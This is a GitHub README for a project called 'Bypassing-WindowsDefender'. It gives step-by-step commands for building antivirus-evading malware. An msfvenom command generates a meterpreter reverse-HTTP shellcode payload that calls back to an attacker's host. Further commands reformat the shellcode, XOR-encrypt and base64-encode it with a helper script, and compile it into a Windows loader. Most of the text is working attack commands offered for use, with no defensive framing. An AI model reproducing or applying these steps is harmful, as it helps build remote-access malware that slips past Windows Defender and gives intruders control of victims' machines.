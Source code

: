 ## Bypassing-WindowsDefender

### External library used in this project:

- https://github.com/ReneNyffenegger/cpp-base64

### Creating stageless payload

```bash
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=<PORT> -f c -o main.c
```

### Copying our shellcode to the clipboard

```bash
sed -E 's/"\\/0/g;s/"$/,/g;s/\\x/, 0x/g;s/";//g;/unsigned char [A-Za-z]+\[\] =/d' main.c | xclip -sel clip
```

- Create a file called `payload.txt` in the same folder where the `tool.py` script is located and paste your shellcode there.

### Running tool.py

```powershell
python3 tool.py
```

- Copy the subtraction value and add it to main.cpp in `int subtract = [HERE];`. (This is just to avoid using the xor key directly in the code, you can remove it if you want)

- Remember that you can change the value of the `xor_value` variable in the `tool.py` code.
- The tool will create a file called `payload.b64`, which will contain your encrypted and base64-encoded shellcode that you must replace in the main.cpp.

### Compilation command

```powershell
g++.exe -m64 -o app.exe -lkernel32 -static main.cpp base64.cpp -mwindows -I . -D_WIN32_WINNT=0x0601
```

Make sure you have `base64.h` and `base64.cpp` in your project.

### Demo video

https://user-images.githubusercontent.com/89106058/237018521-ff5d43e9-b833-421f-9a83-e47385bf5a0c.mp4


